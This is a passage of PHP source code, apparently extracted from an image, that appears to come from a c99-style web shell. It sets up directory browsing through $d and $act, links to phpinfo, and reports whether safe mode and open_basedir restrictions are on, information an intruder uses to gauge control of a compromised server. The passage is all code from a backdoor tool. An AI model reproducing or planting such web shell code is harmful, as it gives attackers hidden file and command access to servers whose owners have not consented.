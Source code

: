   header("Expires: Mon, 26 Jul 1997 05:00:00 GMT");
  header("Last-Modified: ".gmdate("D, d M Y H:i:s")." GMT");
  header("Cache-Control: no-store, no-cache, must-revalidate");
  header("Cache-Control: post-check=0, pre-check=0", FALSE);
  header("Pragma: no-cache");
  if (empty($tmpdir)) {
    $tmpdir = ini_get("upload_tmp_dir");
    if (is_dir($tmpdir)) {$tmpdir = "/tmp/";}
  }
  $tmpdir = realpath($tmpdir);
  $tmpdir = str_replace("\\",DIRECTORY_SEPARATOR,$tmpdir);
  if (substr($tmpdir,-1) != DIRECTORY_SEPARATOR) {$tmpdir .= DIRECTORY_SEPARATOR;}
  if (empty($tmpdir_logs)) {$tmpdir_logs = $tmpdir;}
  else {$tmpdir_logs = realpath($tmpdir_logs);}
  $sort = htmlspecialchars($sort);
  if (empty($sort)) {$sort = $sort_default;}
  $sort[1] = strtolower($sort[1]);
  $DISP_SERVER_SOFTWARE = getenv("SERVER_SOFTWARE");
  if (!ereg("PHP/".phpversion(),$DISP_SERVER_SOFTWARE)) {$DISP_SERVER_SOFTWARE .= ". PHP/".phpversion();}
  $DISP_SERVER_SOFTWARE = str_replace("PHP/".phpversion(),"&lt;a href=\"".$surl."act=phpinfo\" target=\"_blank\"&gt;&lt;b&gt;&lt;u&gt;PHP/".phpversion()."&lt;/u&gt;&lt;/b&gt;&lt;/a&gt;",htmlspecialchars($DISP_SERVER_SOFTWARE));
  @ini_set("highlight.bg",$highlight_bg);
  @ini_set("highlight.comment",$highlight_comment);
  @ini_set("highlight.default",$highlight_default);
  @ini_set("highlight.html",$highlight_html);
  @ini_set("highlight.keyword",$highlight_keyword);
  @ini_set("highlight.string",$highlight_string);
  if (!is_array($actbox)) { $actbox = array(); }
  $dspact = $act = htmlspecialchars($act);
  $disp_fullpath = $ls_arr = $notls = null;
  $ud = @urlencode($d);
  if (empty($d)) {$d = realpath(".");}
  elseif(realpath($d)) {$d = realpath($d);}
  $d = str_replace("\\",DIRECTORY_SEPARATOR,$d);
  if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;}
  $d = str_replace("\\\\","\\",$d);
  $dispd = htmlspecialchars($d);
  $safemode = safemode();
  if ($safemode) {
    $hsafemode = "&lt;font color=#3366FF&gt;&lt;b&gt;SAFE MODE IS ON&lt;/b&gt;&lt;/font&gt;";
    $safemodeexecdir = @ini_get("safe_mode_exec_dir");
  }
  else { $hsafemode = "&lt;font color=#FF9900&gt;&lt;b&gt;SAFE MODE IS OFF&lt;/b&gt;&lt;/font&gt;"; }
  $v = @ini_get("open_basedir");
  if ($v or strtolower($v) == "on") {
    $openbasedir = TRUE;
    $hopenbasedir = "&lt;font color=red&gt;".$v."&lt;/font&gt;";
  }
  else {
    $openbasedir = FALSE;
    $hopenbasedir = "&lt;font color=green&gt;OFF (not secure)&lt;/font&gt;";
  }
  